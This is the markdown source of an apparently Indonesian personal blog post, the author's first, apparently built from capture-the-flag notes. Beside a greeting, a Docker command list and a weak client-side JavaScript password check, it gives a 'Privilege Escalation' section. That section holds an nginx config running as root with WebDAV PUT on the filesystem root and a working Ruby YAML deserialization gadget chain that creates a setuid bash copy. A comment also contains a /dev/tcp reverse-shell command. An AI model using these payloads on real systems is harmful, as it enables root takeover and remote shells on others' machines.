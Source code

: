 ```yaml
---
title: "The First"
date: 2023-12-23 22:00:00 +0700
categories: [random]
tags: [random]
image: 
    path: /assets/img/gojo-satoru.jpg
---
```

<script src="https://cdnjs.cloudflare.com/ajax/libs/crypto-js/3.1.9-1/crypto-js.js"></script>

<script>
    var passwordInput = prompt('Masukkan password:');
    var hashedPassword = CryptoJS.SHA256(passwordInput).toString();

    // Hash password yang benar (ganti ini dengan hash SHA256 dari password kamu)
    var correctHash = '0bbe10dd0b4ff51cae00a340ce4606838c73ed8c89a65062b880a0aa842682b9'; // Contoh hash SHA256 untuk password "password"

    if (hashedPassword != correctHash) {
        alert('Password salah!');
    }
</script>

## Selamat Datang Cuy!!

ini post-an pertama saya, **K1zuko**.


## Run Docker

```bash
sudo systemctl start docker
docker build .
docker images
docker run -p 1337:1337 {image}
```

## Privilege Escalation
### nginx.conf
```nginx
user root;
worker_processes 4;
pid /tmp/nginx.pid;
events {
        worker_connections 768;
}
http {
        server {
                listen 1338;
                root /;
                autoindex on;

                dav_methods PUT; # with dav_methods
        }
}
```
### Ruby
```ruby
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: cp /bin/bash /tmp/kz; chmod 6777 /tmp/kz # "bash -c 'bash -i >& /dev/tcp/<local-ip>/<local-port> 0>&1'"
         method_id: :resolve
```